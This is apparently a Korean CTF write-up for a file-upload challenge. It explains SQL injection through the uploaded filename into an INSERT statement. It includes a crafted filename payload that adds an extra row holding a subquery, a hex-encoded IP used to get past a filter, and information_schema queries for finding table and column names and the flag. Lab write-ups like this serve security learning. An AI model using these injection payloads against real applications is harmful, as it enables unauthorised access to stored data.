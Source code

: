 # 문제

- 파일 업로드 폼이 있고 파일을 업로드하면 업로드 된 시간, ip, 파일명이 출력된다.

  

  


#  풀이

- 파일명으로 인젝션을 시도해야 한다.
- 필터링 체크
  - 대부분 쿼리가 다 가능하다.
  - ip 입력이 막혀있으므로 이것만 hex로 우회 해주자.
- 구성
  - select 결과값을 insert 시킬수있다.

- 테이블 이름 알아내기

  - time값은 스탬프 형식으로 저장되기 때문에 time 값으로 쿼리결과를 받아오는것은 안됨.

  - insert values쌍을 하나 더 추가시켜서 file_name에 쿼리결과값을 받아야함

    - 예시 - 컬럼명 얻어오기

      `filename="123', '111111', 0x3231392e3234382e3136372e313337),((select column_name from information_schema.columns where table_name='테이블명' limit 0,1), '111111', 0x3231392e3234382e3136372e313337)#"`

- 이런식으로 테이블명, 속성명(이번 문제에선 속성이 1개라 몰라도 되지만) 얻어와서 마지막에 select로 플래그값 출력시키면 됨.



# 알게된 것

### insert시 유의사항

- insert 구문 안에 select 같은 쿼리를 넣어도 된다.
  - 단 현재 insert 되는 테이블과 다른 테이블을 지정해야 한다.(아마?)
    - `insert into myTable values((select flag from chall30.chall30_answer limit 1), 129);`

### information_schema injection

- 테이블이름 알아내기
  - `select table_name from information_schema.tables where table_schema = database() limit 1, 1`
    - 현재 DB(`database()`)에 해당하는 테이블이름 가져오기
- 속성명 알아내기
  - `select column_name from information_schema.columns where table_name='구한 테이블명' limit 0,1`